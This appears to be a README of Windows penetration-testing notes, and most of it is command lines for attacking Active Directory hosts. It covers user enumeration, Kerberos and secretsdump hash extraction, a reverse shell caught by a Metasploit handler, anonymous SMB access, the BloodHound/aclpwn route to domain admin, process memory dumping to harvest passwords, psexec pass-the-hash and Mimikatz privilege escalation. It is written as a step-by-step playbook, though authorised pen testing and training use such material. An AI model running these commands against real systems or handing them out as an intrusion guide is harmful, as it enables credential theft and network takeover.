 # WINDOWS Pen Testing scripts and tutorials

## Recon

Enum4Linux will get you Domains, Workgroups, Usernames, etc.
```bash
enum4linux -a [-u USER -p PASS] IP
```

Impackets lookupsid will give you also the users if enum4linux may not work properly

```bash
lookupsid.py IP
```

## Get User Password Hashes

Impackets GetNPUsers tries several attacks to retrieve password hashes

```bash
GetNPUsers.py IP
```

Further on Impackets secretdump can retrieve secret password hashes which only privileged accounts can retrieve, or due to a misconfiguration.
```bash
secretdump.py DOMAIN/USER:PWD@IP 
```


## WinRM 

### File transfer

For the winrm service use winrm/wirnmcp.rb to upload and download files

```bash
ruby winrm/winrmcp.rb IP USER PASSWORD -u LOCAL_FILES+ REMOTE_FOLDER
```

```bash
ruby ./winrm/winrm.rb IP USER PASSWORD -d REMOTE_FILES+ LOCAL_FOLDER
```

### Shell

use evil-winrm for a shell. 

If something wont work execute 

```bash
bash ./msf/create-reverse-shell.sh LOCAL_IP LOCAL_PORT 
```

and execute it on the remote server

while having the following session open at metasploit

```msf
msfconsole

use exploit/multi/handler
set LPORT LOCAL_PORT
set LHOST LOCAL_IP
exploit -j -z 
```

if the meterpreter session is opened in the msfconsole:

```
sessions -i 0
```

to get to the first created session


## SAMBA

```bash
smbclient -L //IP/ 
```

just hit enter for anonymous access. 
You could also try to access it anonymously with

```bash
smbclient //IP/SHARE 
```

Sometimes you can access the SYSVOL share, if it is not cleaned up it may contain some xml files in the Policy folder which contains password hashes


## Kerberos

Checkout Impacket scripts

if you have access rights on the machine you also can use mimikatz. 
Upload it and try it out. 


## BloodHound & aclpwn

Using BloodHound you can generate a path from owned principals to admin domains if an LDAP server is running

1. Upload SharpHound.ps1
2. Exec PS `C:\..\ Import-Module .\SharpHound.ps1`
3. Exec PS `C:\..\ Invoke-BloodHound -CollectionMethod All -DomainController DC -LdapUser USER -LdapPass PASSWORD -IgnoreLdapCert`
4. Download XYZ-BloodHound.zip
5. start neo4j `neo4j console &`
6. start BH `bloodhound`
7. upload zip file
8. use aclpwn `aclpwn -f USER -ft User -t ADMIN_DOMAIN -d DOMAIN -du neo4j -dp neo4jpass -s IP -u USER -p PASSWORD`
9. if successfull you can now use Impackets secretdump.py 'secretsdump.py DOMAIN/USER:PASSWORD@IP'
9.1 or use mimikatz 


## Dump Processes

Get ProcDump https://docs.microsoft.com/en-us/sysinternals/downloads/procdump and upload it to the windows server.
Afterwards you can dump any process by using

```bash
.\procdump64.exe -ma PID DUMP_FILE
```

Download it and analyze it. If Firefox is running, it might be possible that passwods are send plain text. 

## Shells

Next to evil-winrm, meterpreter shells and reverse shells you can get access using impackets psexec.py 

```bash
psexec.py DOMAIN/USER:PASSWORD@IP 
```

or if you cannot crack the NTLM Hash you can access directly using the hash with the pass the hash method (https://en.wikipedia.org/wiki/Pass_the_hash)

```bash
psexec.py -hashes LMHASH:NTHASH DOMAIN/USER@IP
```

## Privilege Escalation


### WinPEAS

Use WinPEAS for enumeration

### Using AlwaysInstalledElevated misconfig

https://steflan-security.com/windows-privilege-escalation-alwaysinstallelevated-policy/

### Mimikatz
Mimikatz has several options, from exploiting kerberos over pass the hash.
Look at https://github.com/gentilkiwi/mimikatz/wiki

### BloodHound and aclpwn 
see above

### Enumeration (not windows specific)

#### Dump Processes
see above

#### MITM
Getting a local mitm using a proxy for example, we can read traffic and ideally getting passwords in clear. 
Use own adjusted scripts depending on the software. 

#### enumerate whats on a machine
see https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/ for several PS commands to check the server for services, files etc.

#### CVEs 
Check for old CVEs with Sherlocks PowerShell script
upload Sherlock.ps1 to the server

```bash
Import-Module .\Sherlock.ps1
```

or use the newer version Watson.
upload the Watson_Net45.exe or Watson_Net35.exe to the server and execute

```bash 
.\Watson_Net45.exe 
```
